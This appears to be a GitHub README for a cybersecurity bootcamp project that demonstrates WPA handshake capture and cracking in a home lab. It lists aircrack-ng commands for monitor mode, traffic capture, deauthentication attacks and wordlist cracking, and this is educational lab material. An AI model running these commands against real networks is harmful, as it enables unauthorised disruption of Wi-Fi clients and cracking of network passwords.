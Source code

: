 # Cybersecurity-Bootcamp-Final-Project

# [Video Demonstration](https://youtu.be/wN4miSjzfVc)
**BootCon 2023 Project 4 demonstration of capturing and cracking WPA Handshakes**

## Tools Used

* [Aircrack-ng Suite Of Tools](https://www.aircrack-ng.org/)
* [Raspberry Pi 4](https://www.raspberrypi.com/products/raspberry-pi-4-model-b/specifications/)
* [Wemos D1 Mini](https://www.wemos.cc/en/latest/d1/d1_mini.html)
* [NodeMCU](https://nodemcu.readthedocs.io/en/release/)
* [Kali Linux](https://www.kali.org/docs/arm/raspberry-pi-4/)
* [Tasmota](https://tasmota.github.io/docs/)
* [ESP8266 Deauther](https://deauther.com/docs/about/)

## Overview
## What is the 4-way handshake?
The handshake is a term that includes the first four messages of the encryption connection process 
between the client that wants the WI-FI and the AP that provide it.

I won’t be going into details on setting up the attack and victim machine as this is out of the scope of this presentation.
The attack machine is a raspberry pi 4b with kali linux installed 

### Aircrack-ng is a complete suite of tools to assess WiFi network security that focuses on different areas of WIFI security like:
* Monitoring: Packet capture and export of data to text files for further processing by third party tools.
* Attacking: Replay attacks, deauthentication, fake access points and others via packet injection.
* Testing: Checking WiFi cards and driver capabilities. 
* Cracking: WEP and WPA PSK (WPA 1 and 2).

The Victim’s machine has Tasmota, an open source firmware for ESP devices. It allows for total local control using MQTT, Web UI, HTTP or Serial. <br/>
I’m using for this demo a Wemos D1 Mini which has the esp8266 chip.<br/>
Deauther = Nodemcu 12p with the ESP8266 Wifi deauther firmware install.<br/> 
This does the same thing as Aireplay-ng and sends deauthentication packets to the victim's machine.
<br/>
<br/>

<p align="center">
Disclaimer: <br/>
<img src="Images/Warning.png" height="80%" width="80%" alt="Disclaimer"/>
<br />
<br />
<p align="center">  
Topology: <br/>
<img src="Images/Topology.png" height="80%" width="80%" alt="Topology"/>
<img src="Images/Topology2.png" height="80%" width="80%" alt="Topology"/>
<p align="center">  
Captured Traffic: <br/>  
<img src="Images/Wireshark.png" height="80%" width="80%" alt="Wireshark"/>  
<p/>
<br />
<br />

## Commands
1. To put the wireless interface into monitoring mode we use the command.
 
        sudo airmon-ng start wlan0
        
2. Next, we’ll dump the wireless traffic and write to a file with.
 
        sudo airodump-ng -channel # -w handshake-capture wlan0mon  
        
3. Use the ESP8266 WiFi-Deauther to send deauther messages or use.

        sudo aireplay-ng –deauth 0 -a AP mac address -c victim’s mac address wla0mon
        
4. Crack captured handshake with.

        sudo aircrack-ng ~/handshake-capture.cap -w /usr/share/wordlist/fasttrack.txt                                                                        
                                                                        
                                                                        
                                                                        
                                                                 
